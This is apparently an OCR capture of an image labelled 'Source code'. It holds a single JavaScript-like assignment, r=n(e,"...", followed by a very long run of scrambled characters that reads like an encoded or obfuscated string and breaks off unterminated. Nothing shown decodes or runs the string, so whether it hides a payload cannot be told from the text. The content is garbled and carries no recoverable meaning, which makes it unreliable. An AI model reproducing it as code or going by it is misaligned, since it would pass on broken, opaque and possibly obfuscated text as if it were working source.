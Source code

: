 r=n(e,"rs(/c^Bmk6&CeX4.cm/m^sBek6CfCXXk./GeBe&ceeXXJXXB/X*^^mk&&kCXXpk&C4C4X6.cpXB4CeecXXO&(c(e^k(sB.6&ecXB.ksmX4(aBXmec&6se^Xe.X(B/s4&s.s4/6^cBX.C:B/m/CBkk/6wC&e&4LXs4s.e(q/k^/B&kB&/e(XX./qC(&cBB%mkB^km66Cce.4k^mk(&eC448..eB.cX.s.s/(4c6B(eP<^(/cmS&cC6(C8C.4^..emskl.sk/CmcC4X(4(9/(c/4ce(Bk.&Cmme(.MXmsGcX^CmX6C&.k4k/C^CmX(4XEBB/&Ces4?./e6smcC^Ckk6kCcXc4kCe?&/C^&mXk.6.eX4/*s&XeX4s.esm/p64Xu.k.4(ccB.ss&(^cE^CmcXss6(.c4Bs/mk^CBX^.k,&s&ck^4me(kcm^emm6(&CFC^sBek&&B^sm(k^&2CCXc/smXk6Bs&c4e.cCGX(4c..s&//6ee..(R^XC(6^BBX(&c4^4m66c&Xw4^eB.kB&cC6X.eeP&(&X&.4}4(6cc^Xem.6(B4&/&m,m.6me^Xsk&CMC4X6.c?XmeC^Xc4/.6XGs(cmB4ks^m&&mw6s&cC.X&./^/kCB^&k4&V^s^e..B8/s4/6^(e^44sm///eBck^66&&kseeU6(sX}44Tcs./&^/e!X(s&((X4s_s((XckBsC4MBse/Cc4(cB^&/CeXk..3C//c.smB^6BC^Xk4&.&(k/4^enk(&/e^mm(kC.//sc6sk^46mCmeCk(&.CBXs4ey^mcCse64k.Bs4(k.4BXme6cB&C%46Jm((/B^4(k(^cX^6mck.&k k^sB/kC66C6eX&s4s(cc(^Bm&kkcsBkm^6t&Cec/cB&kX6BC4kmXsq/XksC^/m^6Yc(B^mB6s&ee^(C^Xkx64&.X&4k..(cXmscdC(Bcs^&CewB(O/e^cB(/k&kC4eX4^s/s.cksuk(k.&Xek6m.cs(4kc.Bmke&kCce4&^>k(8ck^B/&(&cC^4m66c&Xs6^BBckX64C4XOk6&kCXXk./xekskcC:es4sC(XC4B sse/^&BX&.5sk((c&BBB.6^Bc&VX4v(s6/646YCsX/k^/Bee6Im(((^^^msk.CsB/k^6mC(eX4B^ek(&cCmk4Xss6(sXXH#ss(ecmBzX/.e(^csc&m(6/&mCkm(6(&BesXe^Xks6.&Xec4sjsCB4*4&n^(R/66.4^.^sC/^c.Be/(mBCBe64mxmsXc/c.Mk/^/e^mm(kC.6(m^#Bemc&/CCe^4Xl4X^(cBcB66*&Ce^6(C.&CX&X..&s^(4kXeX4^)}(6/BwecXk/&nee4(?Y((4c//m/mk6.C&Xckc&kCkX/44bmBc&(CXem.cRX/6c6B&kc/c^BBkk/64CmT/BBcs^e^.&(4&.(&4Xm4(.Xsk/s6(4G4kOs(4ck^umec^6/C44k.&se/C4^sBs6/cc.Bke^QX(/c(^^(CB6C/eC4&v^se/4ckmq/6mkCcX)4&_4(4/C.cs6(kc/^4mm4Bs4(4c6B//&kme^X6&BX^C.4k./A4(6c(&vX&1ksm/e^cB.kk^B6(4Z.Cf/(;c/.Bs&(&c^B7m6XXssc^cC(sBe&=CmX}4X&BekX&.^sG(66ees4m:(./(X^^B6(-cC^cB.k&&/%Cc/^Ckc6cCcek6e4&sC/&^XB.m.&Xe/4skXe&esXe.ms)kcBmCm4Cgs(6//^CmmkV&Bm^6kXssC(./.Bpks6C&6k/4eNkXcs.cX/cBX&&CkX&.kYe4C4=s&sc(.c&B/ee.C((/sGCc46B64mm6&X/sX/scsB(k/6X&Ck^44a&XB(sc./BB.&eC&Xe.&o44X4( /sB/sceB^4Bscse/^B(mekkcsBcm^61&Cec((m2mm6.C/kme&s(s&XB.6;&(^cn^6ek.ksc/c^&se^.&m&.BCk66.C&X^44mskB&Xeym66&&Xek4/.e^X&CC/ee.6s/s.Xk^6_e(mc(^CX.UB(s/k^B/kckB/eseC.ee4((/.B^mc6e&cX(4C.k(g(e^/BXk46&C4X.CcSc(Ccc(sBIkCC^em465k.s/e^C(.Bm6.C/X44ksc/B(XBsmm6.&6Xs4X.Bsesm^CBX6B6eksX.4XL6/spk^emckC&6X/&&i/s(/^^^/sB6&sC^4O4&sB/k(.B/m6&s&CX/4..ks4s6^XB.6k64^mmekC&BesX&/emXkXCcem&c{CX/sB^4BB((/.^Bmske36/C^s^Xs^/Xc6Bcm.6kKc/mcCm/6c&&e/6sX(sB/cc*^XkB/s^cB^k}6CCcssB^mC6/&smm&/CCX&eB.4.&s^/Qc6C.4^GCs4c&^4(mc&k/eX4s.ss(//cX^C/^64C&kBXs..4Bs.^eB&ke&&C46X6(CceB4s.es^k^C.Xe.sCXZ)ck^lUe//ci^CmBk.A&se(cBskC6meB&CeC4.Dc//Bs;X(ecs^emm6l.(/z^^Btk1/BmmB&k^&SC6(^B(m&6j&BC.4CC(44/X^mBX/6k&kck&&X4B/0cc^cm^6BCVC46kAssX46/cB(c6k(C.eX4.2X(s9V.^(e(6cc^.mk4i./sXg^ck6?6kms6ceXsm(C/C^emX6m&^m.4k_cXY(4cCBX6s&/C/X.Cs&BeeX&.^s2(6k6e644.6(i/4cC((B6&sesX6keC6eHXC.B+.BX&CeB6e4&(6(4^&m2/4keCXXe..ss(sc.B^k/(4ckB/m466Cce.4&c^((c6^Bmske&^Rc/XB6/(kmCmXs4/C6.B/c^4BB(/c^^mm(kX&BsscXskkB&(C4e&4^6XC.Xs4ezm(Hk.eBX4Wveks^ceBusmcscCBBks6&yk/(^^m&km^XC66/Xcs^//c.B&mB^AmXB66e6XCkX/4ec66s&meBX6&.4X(XcsBkkB6&CCX^.^CXSC/e^Cm46_&De44cA(&4Xc4(.Xsk/s&gXc4eM(s4c6BsmX^(kkXnXk6cCBek4/.4smm6C&Xk.ci.sC.^((P4/kc(^Xmk6s.&/X^^B(m4&BB.Cm.4s/(./CB/k^cmmcBhk&6c&.e&4/c.m.&6m}C44.v4/sc/^/ks6mC^m4C(eXC(X.4B#sse/^6C4s.ssm/scCBk(4me&eec4k.Bs4/ccXB(k&&&^^mmk6&cC.Xk/&ksk.&&k=e/!Cs/e..4M/s4/6^(&..mQX(e/.s^B/6.&mX/4.Cmn^/B^^mkk&6&ekX4.e&ke&Xe.ms((C&sem4.ekX/sB^4BB((c^^Bmske&^3(^I^.mm6.Bk&C./.CCmXk4C0B(s/&6&X&..t&/sc.^es^(.c&B^kY6C6Bc3(eo6/k/X^km/keie(e^s^ek/&s&46/4m}(4^s.B^B.kc6/X(C&eBs&/44(=ssB/sceB^eBs(sk/B^(EC/./.^&m^k4.Bs&(/cBB.^sk4C/Xs4p{/(B_4cCk^C/e44s.^s(/k^Pmsk^6Be
